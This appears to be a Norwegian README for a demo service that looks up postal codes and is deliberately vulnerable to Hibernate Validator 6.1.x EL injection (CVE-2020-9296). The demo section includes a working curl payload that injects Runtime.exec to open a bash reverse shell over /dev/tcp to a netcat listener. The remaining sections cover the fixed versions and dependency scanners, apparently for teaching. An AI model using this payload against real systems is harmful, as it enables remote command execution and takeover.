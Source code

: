 # postnr - enkelt innbrudd i Hibernate Validator 6.1.x

## API

Søk i databasen over postnummer med en GET mot /postnr. Søket tar inntil fire parametre.

| Parameter | Betydning |
--- | --- |
| pn | Postnummer |
| ps | Poststed |
| kn | Kommunenr |
| k | Kommunenavn |

Ex:
```shell
curl -s localhost:8080/postnr?pn=5230
```

Resultatet er en liste av poststeder som matcher søkekriteriene:

```json
[
  {
    "kommune": "Bergen",
    "kommunenr": "4601",
    "postnr": "5230",
    "poststed": "Paradis"
  }
]
```


## Demo ##

Tre terminaler:
1. `ncat -lkvp 31338`
2. `mvn clean package exec:java`
3. `curl -vv -G --data-urlencode 'name=${"".getClass().forName("java.lang.Runtime").getMethod("getRuntime").invoke(null).exec(["bash", "-c", "exec 5<>/dev/tcp/192.168.10.138/31338;cat <&5 | while read line; do $line 2>&5 >&5;done"].toArray("".split(","))).waitFor()}' http://localhost:8080/postnr`

Merk at IP-adressen i terminal 3 må matche IP-adressen til lokal maskin.

I terminal 1 kan man nå skrive vanlige bash-kommandoer og eksekvere dem på maskinen som kjører i terminal 2.


## Kommentarer

Må bruke 6.1.x-versjonene.
6.2.x og 7.0.x legger begrensning på EL-tolkningen og defaulter til å ikke kunne kalle metoder. Se detaljer: https://in.relation.to/2021/01/06/hibernate-validator-700-62-final-released/,

CVE: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-9296

Netflix: https://securitylab.github.com/advisories/GHSL-2020-027-netflix-conductor/

## Strategier

For å oppdage slike ting, bør en av de følgende vurderes. Den første er gratis, resten er abonnementsbasert. Snyk har noe gratis.

* OWASP Maven Plugin (https://owasp.org/www-project-dependency-check/)​
* Snyk (https://snyk.io/)​
* Nexus IQ (https://help.sonatype.com/iqserver)​
* Whitesource (https://www.whitesourcesoftware.com/)​
* Black Duck (https://www.synopsys.com/software-integrity/security-testing/software-composition-analysis.html)​



### Tidlig oppdagelse

http://danamodio.com/appsec/research/spring-remote-code-with-expression-language-injection/

## Generert kode:

Koden er generert med
```shell
mvn archetype:generate -DarchetypeArtifactId=jersey-quickstart-grizzly2 \
-DarchetypeGroupId=org.glassfish.jersey.archetypes -DinteractiveMode=false \
-DgroupId=com.example -DartifactId=simple-service -Dpackage=com.example \
-DarchetypeVersion=2.33
```

Fra https://eclipse-ee4j.github.io/jersey.github.io/documentation/latest/getting-started.html

## Dokumentasjon

Java EE Expression Language: https://javaee.github.io/tutorial/jsf-el.html#GJDDD

Hibernate Validator: https://docs.jboss.org/hibernate/validator/6.1/reference/en-US/html_single/
